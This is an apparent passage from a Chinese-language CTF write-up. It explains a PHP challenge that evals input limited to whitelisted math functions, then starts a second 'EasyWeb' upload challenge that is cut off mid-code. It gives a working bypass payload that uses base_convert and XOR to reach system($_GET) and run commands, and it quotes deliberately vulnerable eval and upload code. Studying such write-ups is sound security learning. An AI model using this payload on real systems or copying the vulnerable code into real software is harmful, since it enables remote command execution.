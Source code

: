 ```php
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
```





c中只能出现部分字符,或者白名单中的单词

查看白名单中的每一个函数发现baseconvert可以绕过字母和无引号的限制(刚开始没有认真导致自己卡住了很久)

```
baseconvert
返回一字符串，包含 number 以 tobase 进制的表示。number 本身的进制由 frombase 指定。frombase 和 tobase 都只能在 2 和 36 之间（包括 2 和 36）。高于十进制的数字用字母 a-z 表示，例如 a 表示 10，b 表示 11 以及 z 表示 35。 
```

`$pi=base_convert;$pi(55490343972,10,36)();`

字符扩展到a-z0-9,用system看了一下当前目录,没有,

想要看根目录,发现长度不够(/和空格)

于是利用^来生成`_GET`,得到`system($_GET)`



最后的payload:`$pi=base_convert;$pi(1751504350,10,36)(${$pi(1115654,10,36)^((100).(1))}{1});`



### EasyWeb



#### 第一步 命令执行

```php
<?php
function get_the_flag(){
    // webadmin will remove your upload file every 20 min!!!! 
    $userdir = "upload/tmp_".md5($_SERVER['REMOTE_ADDR']);
    if(!file_exists($userdir)){
    mkdir($userdir);
    }
    if(!empty($_FILES["file"])){
        $tmp_name = $_FILES["file"]["tmp_name"];
        $name = $_FILES["file"]["name"];
        $extension = substr($name, strrpos($name,".")+1);
    if(preg_match("/ph/i",$extension)) die("^_^"); 
        if(mb_strpos(file_get_contents($tmp_name), '<?')!==False) die("^_^");
    if(!exif_imagetype($tmp_name)) die("^_^"); 
        $path= $userdir."/".$name;
        @move_uploaded_file($tmp_name, $path);
        print_r($path);
```